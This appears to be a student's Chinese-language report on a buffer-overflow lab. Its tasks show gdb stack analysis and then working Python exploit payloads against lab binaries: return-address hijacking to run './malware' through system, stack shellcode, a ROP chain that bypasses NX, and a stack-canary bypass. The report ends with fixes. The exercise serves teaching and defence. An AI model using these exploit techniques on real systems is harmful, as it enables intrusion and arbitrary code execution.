




# 任务一：观察栈帧
## 1 input函数是谁调用的？
   显然是main调用的，[#0] 0x40197f → input() ，[#1] 0x401ad1 → main()，可以看出，调用的情况。
## 2 前三行在干什么？
   首先，push rbp把调用者main的rbp压入栈保存起来，mov rbp rsp指的是更新rbp的值为新压入栈的这个rbp，也就是main的栈帧，sub rsp 0x10指的是将栈顶向下位移16个字节，为函数的局部变量留出空间。
   此刻的rbp值具体可以看出是0x00007fffffffd8b0 ，是原来的main得出的，在stack那里面查看。
## 3 rbp+8这里的值存的是什么？
    0x0000000000401ad应当是函数返回值的地址，表示input执行完成之后，应当回到mian的这个位置继续执行，从汇编语言当中可以看出，   0x0000000000401acc <+9>:     call   0x401977 <input>
0x0000000000401ad1 <+14>:    mov    eax,0x0  这个地址对应的指令就在call input后面，这也印证了我们的观点。
## 4 值从哪里来？
   结论就是从call input 这里来，首先gef b *0x401acc 在这里搞一个断点，然后si，分析call的硬件行为可以看出，他先是rsp=rsp-8,然后[rsp]=0x401lad1，rip=input的地址，然后si使得程序继续运行，进入到input当中，由于mov rbp rsp是把rsp赋值给rbp，导致当时的栈顶指针相对于现在的rbp来说就是rbp+8。
## 5 逐个指令的分析他们的作用？
   首先call input就是调用函数，使得当前程序的执行位置跳跃到input函数体，然后prologue就是函数序言，大多数的函数调用的时候都会经历类似的过程，创立栈帧，保存调用者栈帧的信息。leave就是函数结束时的统一操作，撤销input的栈帧，相当于mov rsp rbp pop rbp可以看出与开头的push rbp ,mov rbp rsp刚好相反，这回是先保存栈顶，然后让rbp弹出栈，最后ret就是跳转回input的下一条指令，在刚才的问题当中已经明白了这个值是怎么获得的，现在只要jump就完事了。

# 任务二： 危险的漏洞
## 1 观察报错和寻找溢出数据的写入位置
   程序提示 `Enter an expression (length up to 15)`；正常输入 `123456` 时会执行
   `echo $((123456))`。若输入超长字符串，程序在 `input` 返回时会报
   `Segmentation fault`（段错误）。这表示程序试图使用一个无效或无权限的内存地址。

   为了观察 `gets` 写入结束后的栈内容，先反汇编 `input`：

   ```gdb
   (gdb) disassemble input
   ...
   0x40199a <input+35>: call gets@plt
   0x40199f <input+40>: test rax, rax
   ```

   因此，在 `gets` 返回后的下一条指令处设置断点并运行：

   ```gdb
   (gdb) break *0x40199f
   (gdb) run
   ```

   输入 32 个可区分的字符 `ABCDEFGHIJKLMNOPQRSTUVWXYZ012345` 后，断点停在
   `0x40199f`。执行 `x/40bx $rbp-0x10` 可看到：

   ```text
   0x721000800fd0: 0x41    0x42    0x43    0x44    0x45    0x46    0x47    0x48
   0x721000800fd8: 0x49    0x4a    0x4b    0x4c    0x4d    0x4e    0x4f    0x50
   0x721000800fe0: 0x51    0x52    0x53    0x54    0x55    0x56    0x57    0x58
   0x721000800fe8: 0x59    0x5a    0x30    0x31    0x32    0x33    0x34    0x35
   0x721000800ff0: 0x00    0xd8    0xff    0xff    0xff    0x7f    0x00    0x00
   ```

   `expression` 的首地址为 `$rbp-0x10`，但它仅有 16 字节。因此前 16 字节
   `A`--`P` 写入数组本身；接下来的 8 字节 `Q`--`X` 覆盖保存的调用者 `$rbp`，
   再接下来的 8 字节 `Y`--`5` 覆盖保存的返回地址（原本应为 `0x401ad1`，即
   `main` 中 `call input` 的下一条指令）。最后的字符串结束符 `00` 位于
   `$rbp+0x10`。

   `input` 执行 `leave; ret` 时，`ret` 会把已被 `YZ012345` 覆盖的内容当作返回
   地址跳转，地址非法，故触发 `Segmentation fault`。根因是 `gets` 不知道目标缓冲区
   的长度，无法阻止对 16 字节 `expression` 的越界写入。

# 任务三：利用返回地址执行 `malware`

## 1 攻击思路和地址确定

`input` 的栈帧中，`expression` 位于 `$rbp-0x10`，保存的返回地址位于
`$rbp+0x8`，二者相距 `0x18`（24）字节。因此只要先写 24 个字节，再写 8 个字节
的地址，就能把 `ret` 使用的返回地址替换掉。

目标不是直接运行独立的脚本，而是让 `dark-calc` 调用它。反汇编可找到 `eval` 中
已有的一段合适代码：

```gdb
(gdb) disassemble eval
...
0x401a6b <eval+148>: mov edi, 0x6030d0
0x401a70 <eval+153>: call 0x4017e0 <system@plt>
```

地址 `0x6030d0` 正是全局变量 `command_buf`。`input` 在返回前执行
`strcpy(command_buf, expression)`；故将输入开头写成 `./malware\x00`，即可使
`command_buf` 的 C 字符串为 `./malware`。把返回地址改成 `0x401a6b` 后，
`input` 的 `ret` 会跳到上面的 `mov edi`，再由 `call system` 执行该字符串。

## 2 Payload 的构造

实现写在 `payload.py` 中。结构如下：

```text
偏移 0x00--0x09  ./malware\\x00    # 被 strcpy 复制到 command_buf 的命令
偏移 0x0a--0x17  A 填充             # 补足 expression 和保存的 rbp
偏移 0x18--0x1f  0x401a6b（小端序） # 覆盖 input 的返回地址
```

即目标地址在 payload 中的字节为
`\x6b\x1a\x40\x00\x00\x00\x00\x00`；其中没有换行符 `0x0a`。脚本在末尾额外
输出一个换行，使 `gets` 结束读取。嵌入的第一个 `\x00` 不会妨碍 `gets` 继续写入，
但会使后续的 `strcpy` 恰好只复制 `./malware`。

关键代码为：

```python
payload = b"./malware\x00".ljust(0x18, b"A") + struct.pack("<Q", 0x401A6B)
sys.stdout.buffer.write(payload + b"\n")
```

## 3 执行与验证

由于 `malware` 使用相对路径，先进入二进制所在目录，再将 Python 输出通过管道交给
`dark-calc`：

```sh
cd attack
python3 ../payload.py | ./dark-calc
```

实际输出包含：(以下是真实实验截图)



这证明 `malware` 的父进程确实是被返回地址劫持后的 `dark-calc`。攻击跳进的是
`eval` 的中间位置而非其函数序言，因此 `system` 返回后继续执行 `eval` 的尾部时，可能因该函数栈帧并未正常建立而异常退出；成功提示在此之前已经输出，不影响漏洞利用和 `malware` 被执行的验证。

# 任务四：更自由的控制程序随心所欲不逾矩
## 1 利用gdb查看汇编语言的机器码

先在 `input` 入口后的第一条业务指令设置断点并运行，以确认程序确实已进入
`input`：

```gdb
(gdb) break *0x40197f
(gdb) run
Breakpoint 1, 0x000000000040197f in input ()
```

然后用 `disas /r main` 同时显示指令和机器码，并从 `main` 的起始地址向高地址方向
按字节检查：

```gdb
(gdb) disas /r main
   0x0000000000401ac3 <+0>:     55                      push   rbp
   0x0000000000401ac4 <+1>:     48 89 e5                mov    rbp,rsp
   0x0000000000401ac7 <+4>:     b8 00 00 00 00          mov    eax,0x0
...
(gdb) x/16bx 0x401ac3
0x401ac3 <main>:   0x55  0x48  0x89  0xe5  0xb8  0x00  0x00  0x00
0x401acb <main+8>: 0x00  0xe8  0xa6  0xfe  0xff  0xff  0xb8  0x00
```

为核对每条指令的边界，也可以重新运行并在 `main` 首地址单步：

```gdb
(gdb) break *0x401ac3
(gdb) run
(gdb) info registers rip    # rip = 0x401ac3
(gdb) si
(gdb) info registers rip    # rip = 0x401ac4
(gdb) si
(gdb) info registers rip    # rip = 0x401ac7
(gdb) si
(gdb) info registers rip    # rip = 0x401acc
```

因此，前三行汇编对应的机器码及内存区间是：

| 汇编指令 | 机器码 | 占用的内存区间 |
| --- | --- | --- |
| `push rbp` | `55` | `0x401ac3`--`0x401ac3` |
| `mov rbp, rsp` | `48 89 e5` | `0x401ac4`--`0x401ac6` |
| `mov eax, 0x0` | `b8 00 00 00 00` | `0x401ac7`--`0x401acb` |

机器码在 `.text` 段中按**地址从低到高、按指令的编码字节顺序连续**存储；`rip`
执行一条指令后增加该指令的字节数。前三条指令在内存中的排列如下：

```text
低地址                                                              高地址
0x401ac3       0x401ac4                 0x401ac7
    |              |                        |
    v              v                        v
+--------+------------------+------------------------------+
|  0x55  | 0x48 0x89 0xe5   | 0xb8 0x00 0x00 0x00 0x00     |
+--------+------------------+------------------------------+
 push rbp     mov rbp, rsp          mov eax, 0
 [ac3,ac3]     [ac4,ac6]             [ac7,acb]
```

这里的连续排列并不表示把整条指令当作一个“整数”倒序存放；CPU 依次取指令的 opcode、
后续字段和立即数。对于多字节的立即数或地址字段，x86-64 使用小端序。本例第三条的
立即数为 0，四个字节都为 `00`，所以无法仅从这条指令观察出小端序差异。
## 2 栈空间执行攻击

`input` 的序言为：

```asm
push rbp
mov  rbp, rsp
sub  rsp, 0x10
```

`expression` 位于 `rbp-0x10`，保存的返回地址位于 `rbp+8`，故覆盖偏移仍为
`0x10 + 8 = 0x18` 字节。固定栈顶为 `0x721000801000`；结合 `__wrap_main` 调用
`main`、`main` 调用 `input` 的两次 `call` 和两个保存的 `rbp`，可得缓冲区首地址为：

```text
0x721000801000 - 0x30 = 0x721000800fd0
```

`grade_eval` 的地址可由 `nm -n attack/dark-calc` 得到：

```text
0000000000401a87 T grade_eval
```

x86-64 System V 调用约定用 `edi` 传递第一个 `int` 参数，所以在进入
`grade_eval` 前必须令 `edi = 4`。我使用下面的汇编（以 GNU `as` 的 Intel 语法为例）
并查看汇编结果来得到机器码：

```asm
.intel_syntax noprefix
push 0x401ac7       # grade_eval 返回后回到 main 的循环入口
mov  edi, 4         # grade_eval(int grade) 的第一个参数
push 0x401a87       # grade_eval
ret                 # rip <- 0x401a87
```

对应的 16 字节机器码为：

```text
68 c7 1a 40 00 bf 04 00 00 00 68 87 1a 40 00 c3
```

第一个 `push` 预先放置 `grade_eval` 的返回地址；第二个 `push` 配合 `ret` 实现到
`grade_eval` 的控制流转移。这样进入 `grade_eval` 时，栈上仍有一个正常的返回地址，
且栈对齐满足后续调用 `printf` 的需要。机器码不足 `0x18` 字节的部分以 `NOP` 填充，
之后以小端序写入缓冲区地址，使 `input` 的 `ret` 令 `rip` 指向 shellcode。

具体实现写入 `payload_dark.py`：

```python
shellcode = (
    b"\x68" + struct.pack("<I", 0x401AC7)
    + b"\xbf\x04\x00\x00\x00"
    + b"\x68" + struct.pack("<I", 0x401A87)
    + b"\xc3"
)
payload = shellcode.ljust(0x18, b"\x90") + struct.pack("<Q", 0x721000800FD0)
```

执行并验证：

```bash
python3 payload_dark.py | ./attack/dark-calc
```

输出包含目标字符串，说明 `rip` 已先执行栈中的机器码，并成功以参数 `4` 调用了
`grade_eval`：看下面的图片



# 任务五：楚门的世界
## 1 体会ASLR的运行方式
运行./aslr.exe会发现每次输出的i的地址都是不一样的，看起来确实是随机的，但是如果我们连续的定义三个变量，那么他们的地址是等差数列的，每个变量4个字节int，输出是0x7ffd103434dc，0x7ffd103434e0，0x7ffd103434e4，这说明每次运行程序时栈初始位置随机，但是局部变量仍然维持连续存储的性质
## 2 利用ROP攻击栈不可执行的程序
首先确认目标函数及其所需参数：
```bash
nm -n attack/dark-calc-nx | grep grade_eval
# 0000000000401978 T grade_eval
objdump -d -Mintel --disassemble=grade_eval attack/dark-calc-nx
# ... cmp DWORD PTR [rbp-0x4],0x4
```
因此必须按照 x86-64 System V 调用约定使第一个整型参数寄存器 `edi` 为 `4`。
在提示给定的范围内检查 `__libc_csu_init`：
```bash
objdump -d -Mintel --start-address=0x4019d0 --stop-address=0x401ae3 \
  attack/dark-calc-nx
```
可以看到函数结束附近字节：
```text
  401a32:       41 5f                   pop    r15
  401a34:       c3                      ret
  401a35:       90                      nop
  401a36:       66 2e 0f 1f 84 00 00    cs nop WORD PTR [rax+rax*1+0x0]
  401a3d:       00 00 00 
```
x86 指令可从任意字节开始解码。因此从 `0x401a33`（`41 5f` 的第二个字节）开始，
字节序列 `5f c3` 就是所需 gadget：`pop rdi; ret`。`0x401a34` 的单字节 `ret` 也可
独立作为 gadget。
`input` 的缓冲区为 16 字节，保存的 `rbp` 为 8 字节，所以覆盖返回地址的偏移是
`0x18`。构造的栈从低地址到高地址如下：
```text
+----------------------------+
| 'A' * 0x18                 |  填满缓冲区和保存的 rbp
+----------------------------+
| 0x401a33                   |  pop rdi; ret
+----------------------------+
| 0x0000000000000004         |  被 pop 到 rdi
+----------------------------+
| 0x401a34                   |  单独的 ret，用于栈对齐
+----------------------------+
| 0x401978                   |  grade_eval
+----------------------------+
| 0x4019b8                   |  grade_eval 返回后回到 main 循环
+----------------------------+
```
单独插入 `0x401a34` 很重要：`input` 返回后栈为 16 字节对齐；`pop rdi; ret` 消耗两个
8 字节槽位，若直接进入 `grade_eval`，该函数入口的栈对齐不符合 ABI，某些 glibc 的
`printf` 可能因此崩溃。额外的 `ret` 再消耗一个槽位，使 `grade_eval` 入口的 `rsp % 16`
为 8，等同正常 `call` 后的状态。
在 `payload_rop.py` 中用小端序写入这些 64 位值：
```python
payload = (
    b"A" * 0x18
    + struct.pack("<Q", 0x401A33)  # pop rdi; ret
    + struct.pack("<Q", 4)
    + struct.pack("<Q", 0x401A34)  # ret: alignment
    + struct.pack("<Q", 0x401978)  # grade_eval
    + struct.pack("<Q", 0x4019B8)  # main loop
)
```
复现与验证命令：
```bash
python3 payload_rop.py | ./attack/dark-calc-nx
```
实际输出包含：


# 任务六：绕过 Stack Protector

## 1 利用 canary 攻击方式绕过 stack protector

`dark-log` 的栈不可执行且地址随机，同时 `input` 和 `main` 都启用了 Stack
Protector。`input` 的函数尾部会比较 `[rbp-0x8]` 中保存的 Canary 与 `fs:0x28`：

```asm
mov rax, QWORD PTR [rbp-0x8]
xor rax, QWORD PTR fs:0x28
je  <正常返回>
call __stack_chk_fail
```

因此，直接让 `gets(f.expression)` 一直覆盖到 `input` 的返回地址会改坏 Canary，
导致 `__stack_chk_fail`。本题的绕过点不是猜测 Canary，而是利用 `gets` 之后的第二个
漏洞：

```c
memcpy(f.logMsg + f.len, f.expression, sizeof(f.expression));
```

`f.len` 可由 `gets` 溢出覆盖，但没有检查。反汇编表明 `expression` 从 `rbp-0x120`
开始，`logMsg` 从 `rbp-0xa0` 开始，而 `len` 位于输入起点之后 `0x100` 字节处。
我把 `len` 改为 `0xc0`。此时复制目的地址为：

```text
f.logMsg + 0xc0 = (rbp - 0xa0) + 0xc0 = rbp + 0x20
```

`main` 先分配 16 字节局部空间再调用 `input`，所以 `input` 的 `rbp` 比 `main` 的
`rbp` 小 `0x20`。两层栈帧的关键位置如下：

```text
相对 input 的 rbp          内容
rbp - 0x08                 input 的 Canary
rbp + 0x18                 main 的 Canary
rbp + 0x20                 main 保存的 rbp       <- memcpy 从这里开始
rbp + 0x28                 main 的返回地址       <- ROP 的第一个 gadget
```

这次 128 字节 `memcpy` 从 `rbp+0x20` 写起，避开了 `input` 和 `main` 的两个 Canary，
却能覆盖 `main` 的返回地址。`input` 先通过自己的 Canary 检查并正常返回；随后 `main`
也通过 Canary 检查，在执行自己的 `ret` 时进入 ROP 链。

ROP 参数与上一题相同。`0x4018a3` 是 `pop rdi; ret`，`0x4018a4` 是单独的 `ret`，
`grade_eval` 地址是 `0x401677`。前 128 字节既是 `gets` 写入的 `expression`，也是
后续 `memcpy` 的复制源：

```text
expression 起点的内容                 复制后写入的位置
任意 8 字节                            main 保存的 rbp
0x4018a3 (pop rdi; ret)                main 返回地址
0x0000000000000004                    rdi 的值
0x4018a4 (ret)                         对齐 gadget
0x401677 (grade_eval)                  目标函数
```

`0x4018a4` 额外消耗一个 8 字节栈槽，使进入 `grade_eval` 时 `rsp % 16 == 8`，避免
某些 glibc 在 `printf` 内部因栈未对齐而崩溃。payload 的后半部分用 `B` 填充至偏移
`0x100`，再以小端序放入 `len = 0xc0`；`gets` 添加的字符串终止符落在 `f.pad`，还未
到达 `input` 的 Canary。

`payload_canary.py` 的核心构造为：

```python
rop_source = (
    struct.pack("<Q", 0)
    + struct.pack("<Q", 0x4018A3)  # pop rdi; ret
    + struct.pack("<Q", 4)
    + struct.pack("<Q", 0x4018A4)  # 对齐 ret
    + struct.pack("<Q", 0x401677)  # grade_eval
).ljust(128, b"A")
payload = rop_source + b"B" * 128 + struct.pack("<I", 0xC0)
```

复现命令：

```bash
python3 payload_canary.py | ./attack/dark-log
```

实际输出顺序如下，未出现 `stack smashing detected`，并包含目标字符串：

```text

```

## 2 tom的思考

本题能够绕过 Canary，是因为结构体成员的内存顺序为：

```text
低地址                                                        高地址
expression[128] -> logMsg[128] -> len -> pad -> input 的 Canary
```

`gets(expression)` 向高地址连续写入，因此它可先越过 `logMsg` 并覆盖 `len`，而不必
碰到 Canary。随后程序使用已被篡改的 `len` 计算 `memcpy` 的目的地址，形成一次位于
Canary 之外的任意偏移写入；这正是本次攻击可以改写 `main` 返回地址的原因。

若只考虑成员重排，可将长度等控制数据置于 `expression` 的低地址一侧，并让
`expression` 成为最后一个大数组成员，例如：

```c
struct log_frame {
  int len;
  char logMsg[128];
  char expression[128];
};
```

对应布局为：

```text
低地址                                                        高地址
len -> logMsg[128] -> expression[128] -> input 的 Canary
```

此时从 `expression` 开始的溢出只能继续写向 Canary 的方向，无法回头覆盖位于较低地址的
`len`。攻击者不能再把 `f.logMsg + f.len` 变成指向 `main` 栈帧的地址；若仍继续输入超长
数据，先被破坏的是 Canary，函数返回时会调用 `__stack_chk_fail`，本题的利用链失效。

成员重排仅是纵深防御，不能替代输入和边界检查。根本修复是用长度受限的接口替代 `gets`，
例如：

```c
if (fgets(f.expression, sizeof f.expression, stdin) == NULL) return;
f.expression[strcspn(f.expression, "\n")] = '\0';
```

同时必须验证 `len`，确保复制始终位于 `logMsg` 范围内，例如只允许 `0 <= len` 且
`len + sizeof(f.expression) <= sizeof(f.logMsg)`。这样即使 `len` 因其他漏洞变为异常值，
`memcpy` 也无法越界写入。


